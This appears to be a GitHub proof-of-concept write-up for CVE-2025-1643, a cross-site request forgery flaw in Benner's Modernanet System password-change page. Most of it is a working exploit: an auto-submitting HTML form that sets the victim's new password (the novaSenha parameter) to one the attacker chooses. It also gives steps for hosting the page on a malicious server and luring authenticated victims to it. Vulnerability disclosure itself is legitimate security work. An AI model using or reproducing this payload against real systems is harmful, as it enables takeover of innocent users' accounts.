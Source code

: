 # CVE-2025-1643
The Modernanet System by Benner is vulnerable to Cross-Site Request Forgery.

**Affected Version: < 1.1.1**


## POC

This vulnerability resides in the /DadosPessoais/SG_AlterarSenha page in novaSenha  parameter,

Its possible to manipulate the request and trick authenticated users into unknowingly performing action.

In this case, it is possible to carry out an attack, which, if done correctly, 
can change the password of whoever is logging into the website.


## First Step

We have to create a malicious server, to grab our victim.

---


## Malicious server

**in the value field, you have to change to the password that you want**

```html
<!DOCTYPE html>
<html>
<head>
<title>PoC CSRF</title>
</head>
<body onload="document.getElementById('csrfForm').submit()">
  <form id="csrfForm" method="GET" action="https://*.modernanet.com.br/DadosPessoais/SG_AlterarSenha">
    <input type="hidden" name="novaSenha" value="CHANGE-THIS-TO-NEW-PASSWORD">
  </form>
</body>
</html>
```

---

## Second Step

We have to send the link of our server to the victim, **the victim have to be authenticated**.
When the victim clicks in the link, their password its automatically changed to known password.

end.


## Full url
https://IP/DadosPessoais/SG_AlterarSenha

---

## Reference

https://modernasistemas.com.br/
